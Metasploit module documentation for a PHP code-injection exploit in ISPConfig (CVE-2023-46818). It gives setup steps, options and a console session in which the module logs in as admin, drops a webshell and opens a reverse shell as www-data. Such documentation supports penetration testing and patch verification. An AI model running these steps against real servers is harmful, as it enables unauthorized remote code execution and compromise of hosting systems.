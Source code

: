 ## Vulnerable Application

ISPConfig before 3.2.11p1 is vulnerable to PHP code injection via the language file editor (language_edit.php) if the
`admin_allow_langedit` option is enabled.
An authenticated administrator can inject arbitrary PHP code, leading to remote code execution on the server.

- Vendor Advisory: https://www.ispconfig.org/
- CVE: [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- PoC/Details: [https://github.com/SyFi/CVE-2023-46818](https://github.com/SyFi/CVE-2023-46818)
- Exploit writeup: [https://karmainsecurity.com/KIS-2023-13](https://karmainsecurity.com/KIS-2023-13)

### Setup Example

1. Download and install ISPConfig (vulnerable version, e.g., 3.2.11 or earlier)
2. Enable `admin_allow_langedit` in the ISPConfig configuration.
3. Create an admin user for testing.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/ispconfig_lang_edit_php_code_injection`
3. Set the `RHOSTS`, `USERNAME`, and `PASSWORD` options
4. Set `TARGETURI` if ISPConfig is not at the web root
5. Run the module
6. You should get a Meterpreter or command shell session as the web server user.

## Options

### USERNAME
The ISPConfig administrator username to authenticate with.

### PASSWORD
The ISPConfig administrator password to authenticate with.

### LOGIN_TIMEOUT
Timeout for login request (default: 15 seconds).

### DELETE_SHELL
Whether to delete the webshell after exploitation (default: true).

## Scenarios

### ISPConfig 3.2.11 (or earlier), Ubuntu 20.04

```
msf6 > use exploit/linux/http/ispconfig_lang_edit_php_code_injection
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set rhosts 192.168.1.100
rhosts => 192.168.1.100
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set username admin
username => admin
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > set password adminpass
password => adminpass
msf6 exploit(linux/http/ispconfig_lang_edit_php_code_injection) > run

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] Running automatic check ('set AutoCheck false' to disable)
[+] ISPConfig installation detected
[*] Attempting login with username 'admin' and password 'adminpass'
[+] Login successful!
[*] Injecting PHP shell...
[+] CSRF tokens extracted: ID=abc123..., KEY=def456...
[+] Shell successfully injected: sh_xxxxx.php
[*] Starting payload handler...
[+] PHP payload triggered
[*] Waiting for session...
[+] Shell responsive: uid=33(www-data) gid=33(www-data) groups=33(www-data)

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

## Notes
- The module requires valid ISPConfig admin credentials and the `admin_allow_langedit` option enabled.
- The shell is removed after exploitation if `DELETE_SHELL` is true.
- The exploit drops a PHP webshell and triggers the payload for Meterpreter or command shell access.
